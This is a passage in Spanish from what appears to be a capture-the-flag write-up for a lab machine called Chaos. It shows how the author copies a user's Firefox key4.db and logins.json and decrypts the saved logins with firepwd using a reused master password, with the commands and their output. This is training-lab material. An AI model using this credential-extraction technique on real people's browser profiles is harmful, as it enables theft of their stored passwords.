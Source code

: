 Me transfiero los pefiles del ```Firefox```

```null
ayush@chaos:~/.mozilla/firefox$ ls
 bzo7sjt1.default  'Crash Reports'   profiles.ini
```

Transfiero el ```key4.db``` y ```logins.json``` que se encuentran dentro del perfil ```bzo7sjt1.default``` a mi equipo y con ```firepwd``` intento obtener las credenciales

```null
ls
firepwd.py  key4.db  LICENSE  logins.json  mozilla_db  mozilla_pbe.pdf	mozilla_pbe.svg  readme.md  requirements.txt
```

Pero al ejecutar no me devuelve nada

```null
python3 firepwd.py
globalSalt: b'ce217b15a232c6d55974a97b75b8e2f115548bca'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'e9185cea066987cd3e8ef34836fdb922502dd672'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'4d65d78ef77c2953797eaea3bce5ded4'
 }
entrySalt: b'e9185cea066987cd3e8ef34836fdb922502dd672'
b'2647e61e0acd163f83d01991cfb8dc41'
password check? False
```

Esto es porque espera una contraseña maestra, que corresponde a la que ya se ha reutilizado más de una vez

```null
python3 firepwd.py --password="jiujitsu"
globalSalt: b'ce217b15a232c6d55974a97b75b8e2f115548bca'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'e9185cea066987cd3e8ef34836fdb922502dd672'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'4d65d78ef77c2953797eaea3bce5ded4'
 }
entrySalt: b'e9185cea066987cd3e8ef34836fdb922502dd672'
b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'e5c6c1e0fac4cec04a8e4cb8e97e25e17e68ced6'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'd463adb7768fedab71c2689bf396fd4b6e7274fed50fc5cf6734be85e68d3fac'
 }
entrySalt: b'e5c6c1e0fac4cec04a8e4cb8e97e25e17e68ced6'
b'd3a8b3c7c8ef7038e062a4e9d6861fb343191926a4fd40730808080808080808'
decrypting login/password pairs
```
